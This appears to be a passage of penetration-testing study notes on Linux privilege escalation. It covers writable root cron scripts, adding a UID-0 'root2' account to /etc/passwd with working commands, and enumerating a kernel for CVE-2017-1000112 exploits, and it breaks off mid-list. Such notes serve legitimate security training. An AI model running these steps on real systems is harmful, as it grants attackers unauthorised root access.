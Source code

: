 ## Privilege Escalation

### Understanding Linux Privileges

Most resources on Linux are represented as files in the filesystem.

### Insecure File Permissions

Every file has 3 basic permissions - read/write/execute

Goal of Insecure File Permission privilege escalation is to find a file we have write access to that also runs as a privileged user.

#### CRON Case Study

Cron is a good target since they run with root privileges and admins often create scripts with insecure permissions.

Check the logfile for Cron jobs:

```bash
grep "CRON" /var/log/cron.log
```

From here, we can see what scripts are executed by which user and frequency of the script runtime.

If a suitable file is found, check the file and see if the permissions allow for it to be overwritten.  If so, you can inject anything, like a reverse shell, which will run as root.

#### /etc/passwd Case Study

While Linux now uses the protected file /etc/shadow to store password hashes, the file /etc/passwd was once used to do this.  For backwards compatibility, if a hash is found in /etc/passwd, it will be considered as valid for the purposes of authentication and takes precedence over /etc/shadow.  

The effect is, if write access is available on /etc/passwd, then any user's password can be changed by adding a hash to this file and overriding /etc/shadow.

1. Check the permissions of /etc/passwd to see if write access is available.

   ```bash
   ls -lah /etc/passwd
   ```

2. If so, generate a password hash using the crypt algorithm, which Linux supports for authentication, to be inserted into this file:

   ```bash
   openssl passwd newpass
   ```

3. Insert a new line into /etc/passwd using this hash in the correct format, using user and group ID's of 0 to indicate the root user.

   ```bash
   echo "root2:TpiunMT/aK7zA:0:0:root:/root:/bin/bash" >> /etc/passwd
   ```

4. Verify you are able to login to the new account:

   ```bash
   su root2
   id
   ```


### Linux Kernel Vulnerabilities

#### CVE-2017-1000112 Case Study

Success depends not only on matching the kernel version, but also the OS 'Flavor' like Debian/Red Hat/etc.

1. Enumerate the OS version and architecture

   ```bash
   # OS Release
   cat /etc/issue
   # Kernel
   uname -r
   # Architecture
   arch
   ```

2. Search for exploits matching the target information and look for matches with the same kernel version:

   ```bash
   searchsploit linux kernel ubuntu 16.04
   ```

3. 